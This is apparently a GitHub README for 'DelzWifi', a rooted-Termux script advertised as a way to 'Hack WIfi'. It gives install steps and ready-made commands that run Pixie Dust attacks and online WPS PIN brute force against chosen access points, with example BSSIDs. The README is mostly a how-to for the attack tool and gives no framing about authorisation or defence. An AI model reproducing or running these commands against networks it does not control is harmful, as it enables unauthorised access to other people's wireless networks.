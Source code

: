 ## DelzWifi
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
&& apt update && apt upgrade
&& pkg install -y root-repo
&& pkg install -y git tsu python wpa-supplicant pixiewps iw
&& git clone https://github.com/ghodelzcalm/DelzWifi
&& cd DelzWifi
&& chmod +x birihack.py
&& sudo python birihack.py --help
```

#### Example : 

```bash
cd DelzWifi

chmod +x birihack.py

sudo python birihack.py -i wlan0 -K

## UPDATE

```bash

(cd DelzWifi && git pull)

## Express

```bash

sudo python DelzWifi/birihack.py -i wlan0 -K

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
